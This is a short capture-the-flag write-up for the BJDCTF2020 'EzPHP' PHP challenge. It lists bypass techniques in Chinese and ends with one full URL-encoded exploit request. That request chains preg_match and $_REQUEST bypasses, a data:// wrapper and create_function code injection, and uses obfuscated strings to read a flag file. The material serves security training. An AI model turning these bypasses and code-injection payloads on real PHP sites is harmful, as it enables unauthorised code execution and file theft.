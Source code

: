 # WP
[[BJDCTF2020]EzPHP](https://zhuanlan.zhihu.com/p/424128522)<br />[[BJDCTF2020]EzPHP - Rabbittt - 博客园](https://www.cnblogs.com/rabbittt/p/13323155.html#%E7%AC%AC%E5%85%AD%E6%AD%A5%E9%87%8D%E7%82%B9)
# 知识点
1.[$_SERVER 函数中‘QUERY_STRING’](http://blog.sina.com.cn/s/blog_686999de0100jgda.html)<br />2.[preg_match绕过](https://www.cnblogs.com/20175211lyz/p/12198258.html)<br />3.$_REQUEST绕过<br />4.file_get_contents绕过([文件包含漏洞](https://www.freebuf.com/articles/web/182280.html))<br />5.sha1比较<br />6.create_function()代码注入
```python
/1nD3x.php?file=data://text/plain,%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}(~%8D%9A%9E%9B%99%96%93%9A)(~%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//
```
